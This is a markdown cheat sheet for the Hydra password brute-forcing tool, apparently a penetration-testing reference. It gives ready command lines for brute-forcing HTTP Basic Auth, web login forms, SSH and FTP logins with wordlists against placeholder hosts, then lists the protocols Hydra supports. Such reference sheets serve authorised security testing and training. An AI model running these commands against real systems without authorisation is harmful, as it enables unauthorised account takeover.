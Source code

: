 # Hydra

A brute force online password cracking program; a quick system login password 'hacking' tool. 

```bash
https://github.com/vanhauser-thc/thc-hydra
```

## Hydra Commands

### Hydra Help
```bash
hydra -h
```
### Basic Auth Brute Force

#### Combined Wordlist
```bash
hydra -C wordlist.txt SERVER_IP -s PORT http-get /
```
#### User and Pass Wordlists
```bash
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /
```
### Login Form Brute Force
#### Static User and Pass Wordlist
```bash
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
### SSH Brute Force
#### User and Pass Wordlist
```bash
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4
```
### FTP Brute Force
#### User and Pass Wordlist
```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

* FTP

```bash
hydra -l user -P <WORDLIST> ftp://10.10.10.10
```

* SSH

```bash
hydra -l <USERNAME> -P <WORDLIST> 10.10.10.10 -t 4 ssh
```

* Post Web Form

```bash
hydra -l <USERNAME> -P <WORDLIST> 10.10.10.10 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```



### Supported Protocols for Brute Force

* Asterisk
* AFP
* Cisco AAA
* Cisco auth
* Cisco enable
* CVS
* Firebird
* FTP
* HTTP-FORM-GET
* HTTP-FORM-POST
* HTTP-GET
* HTTP-HEAD
* HTTP-PROXY
* HTTPS-FORM-GET
* HTTPS-FORM-GET
* HTTPS-GET
* HTTPS-HEAD
* HTTPS-POST
* HTTP-Proxy
* ICQ
* IMAP
* IRC
* LDAP
* MS-SQL
* NCP
* NNTP
* Oracle Listener
* Oracle SID
* Oracle
* PC-Anywhere
* PCNFS
* POP3
* POSTGRES
* RDP
* Rexec
* Rlogin
* Rsh
* RTSP
* SAP/R3
* SIP
* SMB
* SMTP
* SMTP Enum
* SNMP v1+v2+v3
* SOCKS5, SSH (v1 and v2)
* SSHKEY
* Subversion
* Teamspeak (TS@)
* Telnet
* VMware-Auth
* VNC
* XMPP
